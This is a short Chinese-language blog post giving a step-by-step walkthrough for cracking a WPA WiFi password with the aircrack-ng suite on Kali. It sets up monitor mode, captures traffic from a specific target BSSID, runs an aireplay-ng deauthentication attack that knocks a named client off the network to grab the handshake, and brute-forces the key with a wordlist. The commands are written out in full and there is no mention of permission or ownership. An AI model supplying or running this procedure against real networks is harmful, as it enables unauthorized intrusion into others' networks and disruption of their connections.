 ```yaml
---
title: Aircrack-ng 破解WIFI密码
date: 2018-09-20 
tags: kali
layut: post
music: 27968003
---
```


### 支持监听模式的无线网卡
我这里使用的是**rt3070**
一般**8187**和**3070**的网卡都可以开启监听模式。
![无线网卡](http://da1sy.github.io/assets/images/9-Yue/wifi-1.jpg)
### 1.网卡开启监听模式
> ⚡/home/da1sy # airmon-ng start wlan1

![1](http://da1sy.github.io/assets/images/9-Yue/wifi-2.jpg)
开启监听模式后网卡名子后坠都会更改为mon

### 2.搜索广播中的WIFI
> ⚡/home/da1sy # airodump-ng -a wlan1mon

![2](http://da1sy.github.io/assets/images/9-Yue/wifi-3.jpg)
### 3.对指定的网络进行抓包
> ⚡/home/da1sy/wifi # airodump-ng -w add --bssid 34:96:72:9B:73:7F -c 7 wlan1mon

![3](http://da1sy.github.io/assets/images/9-Yue/wifi-4.jpg)
**-w**是要保存的包名，**--bssid**是目标网络的MAC地质，**-c**是该网络的信道
### 如果抓不到握手包，就用下面命令让目标重新连接网络
> ⚡/home/da1sy/wifi # aireplay-ng -0 5 -a 34:96:72:9B:73:7F  -c 9C:2E:A1:E8:BC:B7 wlan1mon

![4](http://da1sy.github.io/assets/images/9-Yue/wifi-5.jpg)

#### 如果出现 **WPA handshake:34:96:72:9B:73:7F** 就是已经抓到了握握手包，可以继续下一步操作
![5](http://da1sy.github.io/assets/images/9-Yue/wifi-6.jpg)
### 5.开始暴力破解
> ⚡/home/da1sy/wifi # aircrack-ng -w /media/da1sy/软件/DA1SY/password/supper955.txt add-01.cap
#### **-w**后面跟的是字典文件，最后面是抓到的包名
![6](http://da1sy.github.io/assets/images/9-Yue/wifi-7.jpg)

最后就是坐等，这个猜解的快慢取决于GPU的运算能力

